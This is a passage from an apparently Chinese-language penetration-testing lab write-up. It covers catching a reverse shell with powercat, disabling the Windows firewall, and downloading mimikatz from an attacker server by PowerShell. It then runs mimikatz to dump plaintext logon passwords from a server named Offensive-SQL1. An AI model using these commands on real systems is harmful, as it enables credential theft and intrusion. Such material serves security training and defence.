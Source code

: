 


随后，我们的powercat监听就能接受到反弹过来的shell了。  

![在这里插入图片描述](https://img-blog.csdnimg.cn/20191211225815830.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)  

然后关闭Windows自带的Defender防火墙  

![在这里插入图片描述](https://img-blog.csdnimg.cn/2019120822375688.png)  

创建temp目录，进入该目录，然后从我们服务器下载 mimikatz.exe



```
iwr -uri http://192.168.159.10/mimikatz.exe -outfile mimikatz.exe -usebasicparsing`



*   1
```




![在这里插入图片描述](https://img-blog.csdnimg.cn/20191211230239204.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)  

执行 以下命令，获取账号密码明文，至此，我们已经完全掌控了Offensive-SQL1这台服务器



```
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit`



*   1
```




![在这里插入图片描述](https://img-blog.csdnimg.cn/20191208223922452.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



攻陷域控

----



那么，现在我们就需要去攻击域控了。未完待续。。
